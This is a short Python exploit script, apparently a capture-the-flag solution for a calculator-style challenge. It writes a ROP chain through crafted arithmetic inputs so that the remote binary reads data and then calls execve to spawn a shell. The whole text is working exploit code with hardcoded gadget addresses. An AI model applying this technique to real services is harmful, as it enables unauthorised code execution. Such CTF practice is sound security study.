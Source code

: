 def getnum(num, need):
	if num<0:
		num = u32(struct.pack('<i', num))
	num = struct.unpack('<i', p32((0x100000000 - num - need)))[0]
	num = str(num)
	if '-' not in num:
		num = '+' + num
	return num

r.recvline()

eip = 0x170
rw_section = 0x80eba00
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
int_80_ret = 0x0807087e

payload_list = [
	pop_eax, 3,
	pop_ecx_ebx, rw_section, 0,
	pop_edx, 0x200,
	int_80_ret,
	pop_eax, 0xb,
	pop_ecx_ebx, 0, rw_section,
	pop_edx, 0,
	int_80_ret
]


for i in range(len(payload_list)-1, -1, -1):
	if payload_list[i]==0:
		continue

	if payload_list[i-1]==0:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		r.sendline(payload)
		recv = int(r.recvline()[:-1])
		print(recv, payload_list[i])
		
		if recv==payload_list[i]:
			payload = f'+{eip+i}-{payload_list[i]}'.encode()
			r.sendline(payload)
			r.recvline()
			
		else:
			t = getnum(recv, payload_list[i])
			payload = f'+{eip+i}{t}'.encode()
			r.sendline(payload)
			r.recvline()
			payload = f'+{eip+i}+{payload_list[i]}'.encode()
			r.sendline(payload)
			r.recvline()
		
	else:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		r.sendline(payload)
		r.recvline()
